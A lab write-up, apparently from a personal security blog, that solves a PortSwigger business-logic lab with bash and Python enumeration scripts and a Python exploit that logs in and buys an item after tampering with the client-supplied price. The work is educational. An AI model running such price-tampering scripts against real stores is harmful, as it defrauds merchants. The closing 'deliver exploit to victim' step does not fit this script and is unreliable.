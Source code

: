 ```yaml
--- 
title: "Excessive Trust in Client Side Controls"
author: ""
date: 2024-06-01T16:21:27+01:00
description: ""
draft: false
disableComments: false
categories: []
series: [] #Taxonomy to list "See Also" Section in Opengraph Templates
tags: []
slug: ""
summary: ""
---
```

#### Entities
Asset: https://0a1f00410450ba6680aa8a200085007a.web-security-academy.net

#### Enumeration
Access the lab, add the domain to Burp's Target scope and check `Include subdomains`. View `/` route source page and inspect the page, then request all embedded links via Burp proxy using the scripts below.
```shell
base_url="https://0a1f00410450ba6680aa8a200085007a.web-security-academy.net"
paths=$(curl -s "$base_url" | grep -oE '(src|href)="[^"]*"' | cut -d'"' -f2)
for path in $paths; do
  echo "$(curl -sk -x 127.0.0.1:8080 -o /dev/null "${base_url}${path}")"
done
```

```python
from bs4 import BeautifulSoup
from urllib.parse import urljoin
import requests
import urllib3
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

# Specify Variables
base_url = "https://0a1f00410450ba6680aa8a200085007a.web-security-academy.net"
proxies = {'http': 'http://127.0.0.1:8080', 'https': 'http://127.0.0.1:8080'}

# Parse Base URL
content = BeautifulSoup(requests.get(base_url).text, 'html.parser')

# Find and Request all href resource
for link in content.find_all('a', href=True):
  full_url = urljoin(base_url,link['href'])
  response = requests.get(full_url, proxies=proxies, verify=False)
  print(f"{response.status_code} {response.url}")

# Find and Request all src resource
for img in content.find_all('img', src=True):
  full_url = urljoin(base_url,img['src'])
  response = requests.get(full_url, proxies=proxies, verify=False)
  print(f"{response.status_code} {response.url}")
```

![Enumeration](/images/bizlogic1/01-enumerate-excessive-trust-in-client-side-controls.png "Enumeration")  

#### Exploration
Inspect Burp's Target Site map to find `/cart` resource path which the bash script missed but the python script revealed. Stacking BurpSuite and the Browser with FoxyProxy extension for Burp turned on, perform a user flow for purchasing an item after logging in with the provided user credential  `wiener:peter`.     

![Exploration](/images/bizlogic1/02-explore-excessive-trust-in-client-side-controls.png "Exploration") 

#### Exploitation
The `/login` when requested with valid credentials makes a POST request with `csrf`, `username` and `password` parameters. Observe a POST request  to `/cart`  with `productId`,`redir`, `quantity`, and `price` parameters. When the cart is viewed a GET request is made to `/cart` which returns an ensuing page with a coupon feature that has a `csrf` input tag and a form tag that makes a POST request to `/cart/checkout` to place an order for the item. Send these requests to Burp Repeater, Change the price and sequentially resend these requests. This exploit can be automated with the script below
```python
from bs4 import BeautifulSoup
from urllib.parse import urljoin
import requests
import urllib3
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

# Define Variables
base_url = 'https://0a1f00410450ba6680aa8a200085007a.web-security-academy.net/'
proxies = {'http': 'http://127.0.0.1:8080', 'https': 'http://127.0.0.1:8080'}

# Get CSRF Token
def get_csrf_token(session, url):
  response = session.get(url, proxies=proxies, verify=False)
  csrf_token = BeautifulSoup(response.text, 'html.parser').find('input', {'name': 'csrf'}).get('value')
  return csrf_token

# Purchase Item
def purchase_item(session, url):
  # Login
  login_url = urljoin(base_url, 'login')
  login_csrf_token = get_csrf_token(session, login_url)
  login_payload = {'username': 'wiener', 'password': 'peter', 'csrf': login_csrf_token}
  login_response = session.post(login_url, data=login_payload, proxies=proxies, verify=False)
  if login_response.status_code == 200:
    # Add item
    cart_url = urljoin(base_url, 'cart')
    cart_payload = {'productId': '1', 'redir': 'PRODUCT', 'quantity': '1', 'price': '1337'}
    session.post(cart_url, data=cart_payload, proxies=proxies, verify=False)

    # Checkout
    checkout_url = urljoin(base_url, 'cart/checkout')
    checkout_csrf_token = get_csrf_token(session, cart_url)
    checkout_payload = {'csrf': checkout_csrf_token}
    checkout_response = session.post(checkout_url, data=checkout_payload, proxies=proxies, verify=False)
    if checkout_response.status_code == 200:
      print("Purchase successful!")
    else:
      print("Failed to checkout.")
  else:
    print("Failed to log in.")

def main():
  session = requests.Session()
  purchase_item(session, base_url)

if __name__ == "__main__":
  main()
```
Paste the above on the exploit server and deliver exploit to victim.  

![Exploitation](/images/bizlogic1/03-exploit-excessive-trust-in-client-side-controls.png "Exploitation") 

![Solution](/images/bizlogic1/04-lab-solution.png "Solution")   

#### Resources
- https://portswigger.net/web-security/logic-flaws/examples/lab-logic-flaws-excessive-trust-in-client-side-controls
- https://github.com/knoxknot/portswigger/tree/main/business-logic/01-excessive-trust-in-client-side-controls
